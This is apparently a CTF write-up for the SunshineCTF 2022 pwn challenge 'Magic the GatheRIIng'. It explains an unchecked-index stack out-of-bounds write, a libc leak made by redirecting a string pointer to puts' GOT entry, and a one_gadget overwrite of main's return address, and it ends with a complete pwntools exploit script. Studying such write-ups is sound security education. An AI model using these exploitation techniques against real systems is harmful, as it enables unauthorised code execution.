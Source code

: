 ## [RII] Magic the GatheRIIng

was a pwn challenge from SunshineCTF 2022.

the program is a pseudo "magic the gathering" card game.

let's check binary protections:

![checksec](./pics/checksec.png)

ok so no PIE.

well the program present us a menu:

![menu](./pics/menu.png)

you can print rules, load cards, play the game (slow of fast), and exits..

well the vulnerability lies in the function at address 0x40153f:

![reverse](./pics/reverse.png)

if you look at the reverse produce by IDA,

you can see that the scanf function `__isoc99_sscanf(a2, "%hhd %c %s %d %d %d", &v4, &v5, v10, &v6, &v7, &v8)`

initialize various variables,  the `v4` variable is used to calculate the `v9` pointer a bit after `v9 = 24LL * v4 + a1;`

then this `v9` pointer is used to write the other values `v6`, `v7` and `v8` in particular.

the `v4` index is not checked for any bounds, and as `v9` is based on `a1` variable that points on stack,

we basically have an out of bounds write on stack.

We can only control `v6`, `v7`, and `v8` values , so a qword and a dword,..
 
we can only load cards two times, so we can only write two really controlled values on stack..

**So here is the plan**

* **First we will try to have a libc leak**

* **Second we will overwrite main return address with a one gadget**

When playing the game, a string "Basic Troll" or "Basic Land" is printed, via pointers to this strings..

Luckily for us, one of this pointer is reachable with our oob write on stack , the "Basic Land" string pointer.

So we will overwrite this pointer, with the `puts()` function GOT address

Then we play a game , and when the game will try to print "Basic Land", it will leak `puts()` function libc address..

with this leak we will calculate libc base address.

Then with our second oob write, we overwrite `main()` return address with a onegadget..

And when we will exit, we will have a shell...

and that's All..

seeing is believing no?

![gotshell](./pics/gotshell.gif)

if you understand nothing of my explanation, well... just read the code

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

exe = ELF("MagicTheGatheRIIng_patched")
libc = ELF("./libc.so.6")

# change -l0 to -l1 for more gadgets
def one_gadget(filename, base_addr=0):
  return [(int(i)+base_addr) for i in subprocess.check_output(['one_gadget', '--raw', '-l0', filename]).decode().split(' ')]

# shortcuts
def logbase(): log.info("libc base = %#x" % libc.address)
def sla(delim,line): return p.sendlineafter(delim,line)

host, port = "sunshinectf.games", "22002"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process([exe.path])

# overwrite "Basic Land" string at offset 20, with puts got address to leak libc address
sla('> ', '2')
payload = '20 m %p 0 '+str(0x405f60)+' 0\n'
sla(':\n', payload)

# get our leak
sla('> ', '4')
while(1):
  p.recvuntil('Drew ', drop=True)
  leak = p.recv(6)
  if 'Basic' not in leak:
    break
# calculate libc base
libc.address = u64(leak.ljust(8,b'\x00')) - libc.sym['puts']
logbase()
p.recvuntil('Simplified', drop=True)
onegadgets = one_gadget(libc.path, libc.address)

# overwrite return address at offset 45 with onegadgets
sla('> ', '2')
target = onegadgets[1]
payload = '45 m '+'\x40\x02\x03'+' 1337 '+str(target & 0xffffffff)+' '+str((target>>32) & 0xffffffff)+'\n'
sla(':\n', payload)
# return and get shell
sla('> ', '5')

p.interactive()
```

*nobodyisnobody still pwning...*
